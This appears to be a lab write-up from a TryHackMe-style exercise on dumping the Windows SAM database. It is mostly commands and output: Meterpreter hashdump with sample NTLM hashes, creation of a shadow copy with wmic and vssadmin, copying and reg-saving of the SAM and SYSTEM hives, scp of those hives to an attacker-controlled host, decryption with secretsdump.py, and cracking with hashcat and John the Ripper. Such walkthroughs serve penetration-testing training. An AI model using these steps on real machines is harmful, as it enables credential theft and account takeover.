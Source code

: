 **Security Account Manager (SAM)**

The SAM is a Microsoft Windows database that contains local account information such as usernames and passwords. The SAM database stores these details in an encrypted format to make them harder to be retrieved. <br>
The ```sam``` file is stored in :
```
c:\Windows\System32\config\sam
```
And the decryption key used to secure this file is stored in:
```
c:\Windows\System32\config\system
```
There are various ways and attacks to dump the content of the SAM database:
1- **Metasploit's HashDump**
```
meterpreter > getuid
Server username: THM\Administrator
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3b784d80d18385cea5ab3aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:443e64439a4b7fe780db47fc06a3342d:::
```
2- **Volume Shadow Copy Service**

The Volume Shadow Copy Service (VSS) is a Windows service that allows you to create backup copies or snapshots of computer files or volumes, even when they are in use.
<br>
To make a backup of ```C:\```  we should run the cmd.exe with administrator privileges. Then execute the following ```wmic``` command:
```
C:\Users\Administrator> wmic shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
};
```
Once the command is successfully executed, let's use the vssadmin, Volume Shadow Copy Service administrative command-line tool, to list and confirm that we have a shadow copy of the C: volume. <br>

```
C:\Users\Administrator> vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {0c404084-8ace-4cb8-a7ed-7d7ec659bb5f}
   Contained 1 shadow copies at creation time: 5/31/2022 1:45:05 PM
      Shadow Copy ID: {d8a11619-474f-40ae-a5a0-c2faa1d78b85}
         Original Volume: (C:)\\?\Volume{19127295-0000-0000-0000-100000000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: Creds-Harvesting-AD.thm.red
         Service Machine: Creds-Harvesting-AD.thm.red
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential

```
The output shows that we have successfully created a shadow copy volume of (C:) with the following path: ```\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1``` this path contains all ```C:\``` data. <br>
Now let's copy both files (sam and system) from the shadow copy volume we generated to the desktop as follows:

```           
C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
        1 file(s) copied.

C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.
```
2.2-**Registry Hives**

Another possible method for dumping the SAM database content is through the Windows Registry:
```
C:\Users\Administrator\Desktop>reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
C:\Users\Administrator\Desktop>reg save HKLM\system C:\users\Administrator\Desktop\system-reg
```
At this point we should move these two files to our local machine
```
scp sam-reg <our username>@<our ip>:/home/kali
scp system-reg <our username>@<our ip>:/home/kali
```
Let's this time decrypt it using one of the Impacket tools: ```secretsdump.py```
```
python3 secretsdump.py -sam /path/to/sam-reg -system /path/to/system-reg LOCAL
```
the result may look like this:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```
Finally, we will use **hashcat** tool to crack these NTML hashes.
```
hashcat -m 1000 -a 0 hash.txt /path/to/wordlist.txt
```
Using john the ripper
```
john --format=NT hash.txt
#THEN
john --show hashes.txt
```











